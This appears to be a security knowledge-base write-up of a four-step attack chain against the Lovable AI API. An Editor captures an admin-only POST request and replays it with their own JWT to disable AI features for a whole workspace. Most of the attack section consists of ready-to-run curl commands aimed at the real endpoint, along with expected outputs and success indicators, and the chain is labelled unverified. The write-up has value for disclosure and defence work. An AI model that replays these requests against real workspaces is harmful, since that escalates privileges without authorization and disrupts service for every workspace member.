

# Broken Access Control in Lovable AI API Allowing Editor to Disable Workspace AI Features

Multi-stage attack chain demonstrating a complete attack workflow exploiting Broken Access Control in the Lovable AI API, where an Editor can impersonate admin actions to disable workspace-wide AI features.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]] (for request interception and modification)

### Target Environment

- Web platform with Lovable AI API (lovable-api.com)
- Required services/ports: HTTPS (443)
- Network access requirements: Direct internet access to the API endpoint

### Initial Access Requirements

- Valid Admin credentials for initial capture
- Valid Editor JWT token for exploitation
- Workspace ID for the target workspace
- Prior access needed: Authenticated session in the workspace

## Detailed Attack Procedures

### Step 1: Capture Admin Toggle Action
procedure: [[procedures/Access-Admin-Endpoint-as-Editor]]

**Objective**: Perform the admin action to disable AI features and capture the underlying API request for later replay.

**Instructions**: Sign in as an Admin user (Account A) and use the web interface to toggle the AI feature off in the workspace. This triggers a POST request to the API.

Use [[commands/admin-toggle-ai-capture]] to simulate or capture via proxy:

```bash
# Simulated via curl for capture (actual capture uses Burp or browser dev tools)
curl -X POST https://lovable-api.com/workspaces/<WORKSPACE_ID>/tool-preferences/ai_gateway/enable \
  -H "Authorization: Bearer <ADMIN_JWT>" \
  -H "Content-Type: application/json" \
  -d '{"approval_preference":"disable"}'
```

Intercept the request using a proxy tool like Burp Suite to note the exact payload and headers.

**Expected Output**: API response indicating success (e.g., 200 OK with updated preferences), and captured request details.

**Success Indicators**:
- AI feature toggled off in the UI
- POST request captured with admin token

### Step 2: Intercept and Analyze API Request
procedure: [[procedures/Capture-and-Replay-API-Request]]

**Objective**: Isolate the specific API request responsible for the toggle to prepare for modification.

**Instructions**: With the proxy (e.g., Burp Suite) in place, review the intercepted POST request to `/workspaces/<WORKSPACE_ID>/tool-preferences/ai_gateway/enable`.

Key details to note using [[commands/analyze-api-request]]:

```bash
# Example echo for analysis (replace with actual captured data)
echo 'POST /workspaces/<WORKSPACE_ID>/tool-preferences/ai_gateway/enable' \
  'Authorization: Bearer <ADMIN_JWT>' \
  'Content-Type: application/json' \
  'Body: {"approval_preference":"disable"}'
```

**Expected Output**: Full request breakdown including endpoint, headers, and body.

**Success Indicators**:
- Request details extracted
- Endpoint confirmed as lacking role validation

### Step 3: Modify Request with Editor Token
procedure: [[procedures/Capture-and-Replay-API-Request]]

**Objective**: Replace the admin token with an Editor's JWT to test for authorization bypass.

**Instructions**: Edit the captured request in the proxy tool, swapping the Authorization header to use the Editor's token while keeping the endpoint, body, and other headers intact.

Prepare the modified request using [[commands/modify-jwt-request]]:

```bash
curl -X POST https://lovable-api.com/workspaces/<WORKSPACE_ID>/tool-preferences/ai_gateway/enable \
  -H "Authorization: Bearer <EDITOR_JWT>" \
  -H "Content-Type: application/json" \
  -d '{"approval_preference":"disable"}'
```

**Expected Output**: Modified request ready for replay.

**Success Indicators**:
- Token successfully replaced
- Request structure preserved

### Step 4: Replay Modified Request
procedure: [[procedures/Access-Admin-Endpoint-as-Editor]]

**Objective**: Execute the modified request to achieve privilege escalation and disable AI features workspace-wide.

**Instructions**: Send the replayed request using the Editor's token via proxy or [[commands/replay-editor-toggle]]:

```bash
curl -X POST https://lovable-api.com/workspaces/<WORKSPACE_ID>/tool-preferences/ai_gateway/enable \
  -H "Authorization: Bearer <EDITOR_JWT>" \
  -H "Content-Type: application/json" \
  -d '{"approval_preference":"disable"}'
```

Verify the change in the workspace UI or via a follow-up GET request.

**Expected Output**: 200 OK response, AI features disabled for the entire workspace.

**Success Indicators**:
- Request succeeds without authorization error
- AI integrations (prompts, content generation) disrupted for all members

## Attack Chain Summary

### Key Achievements

1. Captured admin-only API request without specialized access
2. Demonstrated vertical privilege escalation from Editor to Admin-equivalent actions
3. Disrupted core workspace functionalities affecting all users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]] Valid Accounts
- [[Exploitation for Privilege Escalation]] Exploitation for Privilege Escalation

### MITRE ATT&CK Tactics

- [[Privilege Escalation]] Privilege Escalation

---
*Last updated: 2023-10-01T00:00:00Z*
